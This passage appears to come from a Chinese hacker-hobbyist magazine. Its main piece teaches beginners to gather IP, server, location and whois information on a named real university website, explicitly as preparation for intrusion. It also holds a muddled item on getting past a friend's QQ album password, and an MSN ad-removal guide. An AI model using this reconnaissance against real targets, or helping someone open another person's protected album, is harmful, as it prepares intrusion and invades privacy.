今天只是简单地为大家介绍了一些组策略技巧。对于普通的用户来说，可能觉得组策略很神秘，其实用户只要在日常的学习和操作中多注意、多实践，一定会发现更多的技巧。这些不仅可以对系统进行优化，还能大大提高系统的安全性，一举多得。

> 编辑点评：组策略简单地说就是一个方便、简单又实用的工具，其中的小技巧可以使大家更好地使用组策略，充分发挥它的用途。这里只是简单地介绍一些基本的技巧。要想让组策略真正地达到防毒效果，还要配合防火墙、杀毒软件等，这才是一个完整的防护。

# 菜鸟踩点——使用网上免费资源

从本文中你可以获得：几个获得网站或者 IP 信息的网站。

兵法有云，知己知彼，方能百战不殆。就像抢劫银行前要到银行去踩点为抢劫银行做准备一样，黑客在入侵网站前也同样需要踩点去了解目标的情况，为入侵做准备。

然而，菜鸟要入侵网站，往往只知道用扫描器乱扫一通，而不知道很多关于目标的信息，在使用扫描器前就可以收集到。今天，我就向大家罗列几个网站，介绍如何使用网上的免费资源来对目标进行踩点。

这里我就以一个目标：www.tku.edu.tw（台湾的淡江大学）为例，如图 1。首先，要获得目标的 IP 地址。当然你可以用 ping 命令，不过我这里介绍的是“使用网上的免费资源获得”。打开浏览器输入 `uptime.netcraft.com`，出现图 2 所示的网页。在 “What’s that site running?” 后面输入 `www.tku.edu.tw`，然后按回车键，出现图 3 所示的网页。通过该网页，我们不但可以知道目标的当前 IP 地址，还可以知道目标的操作系统类型、Web Server 类型、系统变更时间以及网络拥有者，同时还可以知道关于目标系统以前的信息。这些都从一个侧面说明了目标的安全性信息。

下面，我们来获取目标的物理地址。打开浏览器输入 `www.google.com`，输入“IP 查询”进行搜索，出现图 4 所示的网页。随便选择一个，对目标进行查询。这里，我就选择第 1 个 `www.ip138.com`，打开该网页，输入目标的 IP 地址 `163.13.1.205` 查询。看图 5，由于该 IP 地址属于台湾省，所以不能提供比较详细的物理地址。当然，查询大陆 IP 的物理地址也很难找到详细的信息。（小编：实际上大部分 IP 不能定位到详细地址，这和服务提供商的 IP 资源库有关）

现在我们对目标进行 whois 查询。在 `www.google.com` 中输入“whois 查询”可以找到提供 whois 查询的站点。不过在这里，我想向大家推荐一个经典的站：`www.checkdomain.com`，如图 6。该站点提供 IP 查询和 IP 组织信息，同时也提供域名查询。这里我们就使用域名查询，在空白处输入：`www.tku.edu.tw`，然后按 Enter 键，就可以得到该域的详细信息。看图 7。从该网页中可以知道域名的拥有者资料，这些资料对人们来说是很有用的。

这里再提供一种 WHOIS 服务，供大家使用。如果你想知道目标 IP 是否还有其它域名，可以通过 `whois.webhosting.info` 查询。看图 9，在 “Go” 前输入目标 IP，也可以知道该 IP 是否有其他域名。通过查询可以知道，`163.13.1.205` 对应一个域名。在 “Go” 前输入例中的 `216.239.37.99` 查询可以知道，该 IP 拥有很多域名，如图 10。

















如果众菜鸟同学们觉得这样都嫌麻烦，那就再给大家介绍一个站点供大家查信息，它里面收集了很多有用的站点。大家可以去访问下面的网址：`http://www.heibai.net/tools.htm` 页面，见图 11。







好了，使用网上的免费资源这一课就介绍到这里。

# 编辑点评

一篇信息收集的看图教程，给菜鸟提供了一些最基础、最实用的网站。学好它们，对今后网络应用的功夫有很大的帮助，因为我们这些新手应该更加懂得从中获取有用信息来进行判断。记住，搜索信息也是一种能力。

# 酷玩

# 形同虚设的相册密码

近年来，QQ 上一同学告诉我，他在他的 QQ 相册中上传了他小时候的照片，让我有空去看看。几天后，我偶然想起这件事，趁着打开同学的 QQ 相册，谁知竟然需要输入密码（图 1）。可是我并不知道密码，这可让我如何是好？

其实，给相册设密码的学问居然还包括了许多。现在看起来的结果是，QQ 相册的密码和它的主题有关，并且在右侧页面能看到相册的编号，点击编号即可查看图片内容。然后，我在此就尝试通过旁边的图表来找回相册密码。接着我在用户名旁边找到了一些有用的信息。

编辑点评：这是一款好工具，可以改变 QQ 相册的密码限制，同时也可用于找回密码，大家不妨尝试一下。




# 手动去除 MSN 8.0 广告

从本文你可以学到：
- 手动去除 MSN 的广告
- 去除补丁的制作

```
[所需软件]
MSN 8.0：http://g.msn.com/8reen_us/ZH-CHS/INSTALL_MSN_MESSENGER_DL.EXE
ResHacker：http://www.sjky.cn/soft/2147.html
keymake 1.73：http://www.pedy.com/tools/Patchers/keymake/keymake1.73.rar
```

大家使用 MSN 8.0 的时候，总是有讨厌的广告出来。今天我就来教大家如何去除 MSN 8.0 中的广告，让广告不再出现。

## 一、准备工作

首先打开 MSN 的安装目录，默认是“C:\Program Files\MSN Messenger”，然后再找到一个叫作“msgsres.dll”的文件，将“msgsres.dll”备份一下，因为一会儿要修改它，以免出现问题后悔不及，如图1。

## 二、修改步骤

然后我们用“ResHacker”打开这个“msgsres.dll”，查找 4004 - 923，如图2。

- 1. 去除界面上的广告
- 2. 去除对话框下面的文字广告
- 3. 去除界面底部搜索栏

具体步骤如下，按键盘上的 F9，查找 4004 - 923 中的“ID=Atom(SSConstrainer)”；将前面的“layoutpos=top”改为“layoutpos=none”，然后点击上面的“编译脚本”，如图3。

### 2. 去除对话框下面的文字广告

具体步骤如下，按键盘上的 F9，查找 4004 - 923 中的“<element id=atom(adbannercontent) layout=filllayout()>”，然后将其修改成“<element layoutpos=none/>”；然后点击“编译脚本”，如图4。

### 3. 去除界面底部搜索栏

具体步骤如下，按键盘上的 F9，查找 4004 - 923 中的“idSearchContainer”；将上边的“layoutpos=bottom”改成“layoutpos=none”，然后点击上面的“编译脚本”，如图5。修改3处之后，保存文件，点击“文件”，然后选择“保存”，这样一个“msgsres.dll”就修改好了。重新登录 MSN，你会发现，现在里面已经没有像以前那样讨厌的广告了，如图6。

## 三、方便他人

大家一定觉得，现在没有广告好多了，那是不是想和朋友一起分享呢？当然是这样。一个个朋友都这么去修改，是不是太麻烦了呢？好了，接下来我就教大家如何制作这个文件的补丁。

首先把改好的“msgsres.dll”和原始的“msgsres.dll”准备好，将备份的“msgsres.dll”改成“msgsres1.dll”，再将修改后的“msgsres.dll”保留原名，然后打开我们很久以前做过的 keymake 1.73，选择“其他→制作文件补丁”，然后填写相关的信息以及“原始文件”和“被修改的文件”，如图7。

然后点击“制作”，界面可以随便选择，我们一般就选“界面”。生成之后，我们就可以把已完成的作品拿去和朋友一起分享了。

编后语：通过修改本文件的广告项即可去除广告，完成后可防止屏蔽广告失效。今天你可以通过本方法来试试看，效果也不错。


